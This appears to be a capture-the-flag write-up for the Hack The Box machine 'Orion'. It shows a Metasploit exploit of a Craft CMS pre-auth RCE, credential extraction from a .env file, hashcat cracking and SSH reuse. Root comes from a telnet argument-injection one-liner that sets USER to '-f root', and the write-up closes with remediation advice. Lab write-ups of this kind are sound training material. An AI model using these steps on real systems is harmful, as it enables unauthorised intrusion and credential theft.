








# HTB — Orion (Easy, Linux)

## Overview

Orion is an easy Linux machine that chains a pre-authentication RCE in Craft CMS with credential reuse and an insecure local service. An unauthenticated remote code execution flaw (CVE-2025-32432) provides a foothold as `www-data`. Database credentials recovered from a `.env` file lead to a user's bcrypt hash, which is cracked offline and reused for SSH access. Privilege escalation is achieved by exploiting a vulnerable `telnet` client (inetutils) listening on localhost (CVE-2026-24061) to authenticate as root.

## Reconnaissance

### Port scan

````
$ nmap -sV -sC -Pn 10.129.135.86
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-25 21:12 +0100
Nmap scan report for 10.129.135.86
Host is up (0.062s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://orion.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
````

Two ports are open: SSH (22) and an HTTP service (80) served by nginx. The web server redirects to the virtual host `orion.htb`, which I added to `/etc/hosts`:

````
$ echo "10.129.135.86 orion.htb" | sudo tee -a /etc/hosts
````

### Web enumeration

Enumerating the HTTP service revealed an administrative login at `http://orion.htb/admin/login`, running Craft CMS version 5.6.16:



## Foothold

### CVE-2025-32432 — Craft CMS pre-authentication RCE

Craft CMS 5.6.16 is affected by CVE-2025-32432, a critical pre-authentication remote code execution vulnerability. I exploited it using the corresponding Metasploit module, obtaining code execution as `www-data`:

````
msf6 > use exploit/linux/http/craftcms_preauth_rce_cve_2025_32432
````



### Database credential disclosure

During post-exploitation, I located a `.env` file in the application's home directory containing MySQL credentials for the `orion` database:



### Extracting the user hash

Authenticating to the database as `root`, I enumerated the `users` table and retrieved the bcrypt hash belonging to `adam@orion.htb`:

````
MariaDB [orion]> select id, email, password from users;
````



### Offline hash cracking

I cracked the bcrypt hash offline with hashcat (mode 3200) against the `rockyou.txt` wordlist, successfully recovering the plaintext password:

````
$ hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
````



### SSH access as adam

The recovered password was reused for SSH, granting an interactive shell as `adam`:



## Privilege Escalation

### Enumerating local services

Enumerating services bound to the loopback interface revealed a telnet service listening on `127.0.0.1:23`, which was not exposed externally:

````
adam@orion:~$ ss -tulnp | grep -E '127\.0\.0\.1|::1'
````



The installed client was GNU inetutils 2.7:

````
telnet (GNU inetutils) 2.7
````

### CVE-2026-24061 — telnet privilege escalation

This version is vulnerable to CVE-2026-24061. The telnet client passes the `USER` environment variable to the remote login process via the `-a` (automatic login) option. By setting `USER` to `-f root`, the `-f` flag is interpreted by `login` as a request to skip authentication, logging the session in as root:

````
adam@orion:~$ USER="-f root" telnet -a 127.0.0.1
````



Root access is confirmed by the `uid=0(root)` output.

## Remediation

- **Craft CMS RCE:** Upgrade Craft CMS to a patched release addressing CVE-2025-32432. Restrict access to the `/admin` panel where possible.
- **Credential storage:** Do not store database credentials in world-readable or application-accessible `.env` files; use a secrets manager and least-privilege database accounts rather than `root`.
- **Password reuse:** Enforce distinct credentials across the application, database, and system accounts.
- **Vulnerable telnet / weak local services:** Remove or upgrade the vulnerable inetutils package (CVE-2026-24061) and disable telnet entirely in favour of SSH, even on loopback.